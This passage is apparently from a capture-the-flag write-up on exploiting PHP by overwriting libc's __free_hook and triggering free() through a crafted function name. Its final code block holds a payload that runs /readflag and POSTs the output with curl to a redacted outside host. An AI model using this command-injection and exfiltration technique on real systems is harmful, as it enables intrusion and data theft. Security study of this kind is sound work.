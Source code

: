 In this challenge we decided not to go with further php object corruption (ain't got no time for digging php internals). Instead we overwrote `__free_hook` in libc.

Now there are some problems as to how you can reliably get the offset to `__free_hook`. We solved it by dumping memory with the help of relative read and then finding the `/bin/sh` string inside that dump.
This gives us the offset to the base of libc (while addresses could be dumped by reading `/proc/self/maps`).

The final stage of the exploit is to trigger `free()` with controlled data, this is done by triggering fatal error inside php by calling non-existent function with broken name that contains the command we want to execute.

```
    $a = ";/readflag > /tmp/sicemehackerman; curl -X POST http://REDACTED/ -d \"@/tmp/sicemehackerman\";#";
    try{
    $_SERVER['DEET'] = $a();
}catch(Exception $e){
    echo("exception");
}
```
